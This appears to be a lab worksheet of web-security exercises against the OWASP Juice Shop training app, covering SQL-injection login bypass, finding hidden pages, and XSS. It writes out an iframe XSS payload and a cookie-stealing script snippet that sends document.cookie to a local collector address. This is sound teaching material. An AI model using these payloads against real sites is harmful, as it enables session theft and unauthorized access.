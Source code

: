 **A bit more concrete error**

As we previously noticed, we are indeed able to inject some SQL commands to the server using search queries. How about login fields? If this area is vulnerable, it could be very dangerous, because it might enable unauthorized access.

Inject some SQL into the login fields, [bypass the login](https://www.acunetix.com/websitesecurity/sql-injection/) and log in as the first user in the database.

__What command(s) did you use?__

__Why it is working/what is happening?__

__What user did you login as?__


---
### Inspecting the client resources

**Scoreboard**

Sometimes the HTML contains unwanted stuff. This site, for example, has a hidden scoreboard. Use your browsers developer tools and find the path to it.

<details><summary>Hint</summary></details>

__How did you find the path?__

---

**Administration panel**

You might see some additional and interesting stuff while inspecting sources. Try to search for clues about administration and access the Juice Shop's administration panel.

<details><summary>Hint</summary></details>

__What is the administration panel's URL?__

---
### XSS attacks

**Annoying pop-up**

Next, we attempt some cross-site scripting attacks. While you are logged in as any user, insert the following code snippet to the "Order ID" field in the "Track Orders" tab and to the search field. This should trigger the XSS.

```<iframe src="javascript:alert(`xss`)">```

Attack on the "Order ID" is an [reflected XSS attack](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)#Reflected_XSS_Attacks) and the attack on the searchfield is [DOM based XSS](https://www.owasp.org/index.php/DOM_Based_XSS).

__What is the difference between these two types of attacks? How can you protect your applications against both types of attacks?__

**Cookie thief**

XSS attacks above are relatively harmless, as they affect only you. It would be more harmful if you could get a damaging code snippet inside the database or make the results of the script otherwise visible to other users. One way to do this is to create a user that has a malicious script as its name.


For this example we are going to use the following code snippet: 
```javascript
<a|ascript><img src=http://127.0.0.1:5555?c='+ escape(document.cookie)+ '   ></script>
```
